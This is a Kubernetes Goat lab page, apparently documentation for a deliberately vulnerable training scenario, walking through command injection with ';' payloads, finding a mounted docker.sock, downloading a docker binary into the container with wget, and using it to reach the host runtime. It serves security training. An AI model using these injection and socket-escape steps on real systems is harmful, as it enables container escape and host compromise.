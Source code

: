 ```yaml
---
title: ⎈ DIND (docker-in-docker) exploitation
sidebar_label: Welcome
sidebar_position: 2
description: Learn how to exploit Docker IN Docker socket in containers - Kubernetes Goat Scenario 🚀
slug: docker-in-docker-exploitation-in-kubernetes-containers/welcome
---
```


# ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

![Scenario 2](../images/scenario-2.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system by escaping out of the docker container.

:::info

- To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::

![Scenario 2 welcome](../images/sc-2-1.png)

### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on the host system.

:::tip

If you can able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use docker binary to communicate with that with <b>-H</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

- Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

:::tip
- if you get your local domain appended, try using

```bash
www.google.com.
```

- If you have to do this, you should always add a . after a url, even in wget commands. The extra dot is required is that kubernetes has a default option of ndots:5 in /etc/resolv.conf, which is verifiable in this scenario. This means that unless a minimum of 5 dots are present, the domain is not assumed to be a FQDN.
:::


- By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](../images/sc-2-2.png)

- As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

- It contains `docker.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

![Scenario 2 mount](../images/sc-2-3.png)

- Wow! we can see the `/custom/docker/docker.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `docker.sock` UNIX socket. Some of them include [official docker binary](https://download.docker.com/linux/static/stable/), or a simple `curl` program as well.  

:::

- Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

- We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

- We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```

![Scenario 2 extract binary](../images/sc-2-4.png)

- Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```

![Scenario 2 list host images](../images/sc-2-6.png)

- Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different docker commands to gain more access and further exploitation

## 🔖 References

- [Protect the Docker daemon socket](https://docs.docker.com/engine/security/protect-access/)
